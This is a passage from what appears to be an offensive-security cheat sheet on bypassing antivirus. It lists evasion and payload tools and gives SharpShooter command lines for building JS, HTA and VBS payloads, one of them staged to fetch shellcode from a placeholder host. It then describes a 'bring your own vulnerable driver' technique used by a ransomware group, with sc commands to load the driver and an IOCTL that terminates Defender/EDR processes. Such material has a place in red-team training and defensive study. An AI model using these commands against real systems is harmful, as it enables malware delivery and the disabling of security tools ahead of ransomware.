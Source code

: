 ### Using python for build injectors example:

- [https://github.com/cocomelonc/peekaboo](https://github.com/cocomelonc/peekaboo)

### Other tools

```bash
# Veil Framework:
https://github.com/Veil-Framework/Veil

# Shellter
https://www.shellterproject.com/download/

# Sharpshooter
# https://github.com/mdsecactivebreach/SharpShooter
# Javascript Payload Stageless:
SharpShooter.py --stageless --dotnetver 4 --payload js --output foo --rawscfile ./raw.txt --sandbox 1=contoso,2,3

# Stageless HTA Payload:
SharpShooter.py --stageless --dotnetver 2 --payload hta --output foo --rawscfile ./raw.txt --sandbox 4 --smuggle --template mcafee

# Staged VBS:
SharpShooter.py --payload vbs --delivery both --output foo --web http://www.foo.bar/shellcode.payload --dns bar.foo --shellcode --scfile ./csharpsc.txt --sandbox 1=contoso --smuggle --template mcafee --dotnetver 4

# Donut:
https://github.com/TheWover/donut

# Vulcan
https://github.com/praetorian-code/vulcan
```

### More

- [https://github.com/Seabreg/Xeexe-TopAntivirusEvasion](https://github.com/Seabreg/Xeexe-TopAntivirusEvasion)

## Bring Your Own Vulnerable Driver (BYOVD) – Killing AV/EDR From Kernel Space

Storm-2603 leveraged a tiny console utility known as **Antivirus Terminator** to disable endpoint protections before dropping ransomware. The tool brings its **own vulnerable but *signed* driver** and abuses it to issue privileged kernel operations that even Protected-Process-Light (PPL) AV services cannot block.

Key take-aways
1. **Signed driver**: The file delivered to disk is `ServiceMouse.sys`, but the binary is the legitimately signed driver `AToolsKrnl64.sys` from Antiy Labs’ “System In-Depth Analysis Toolkit”. Because the driver bears a valid Microsoft signature it loads even when Driver-Signature-Enforcement (DSE) is enabled.
2. **Service installation**:
   ```powershell
   sc create ServiceMouse type= kernel binPath= "C:\Windows\System32\drivers\ServiceMouse.sys"
   sc start  ServiceMouse
   ```
   The first line registers the driver as a **kernel service** and the second one starts it so that `\\.\ServiceMouse` becomes accessible from user land.
3. **IOCTLs exposed by the driver**
   | IOCTL code | Capability                              |
   |-----------:|-----------------------------------------|
   | `0x99000050` | Terminate an arbitrary process by PID (used to kill Defender/EDR services) |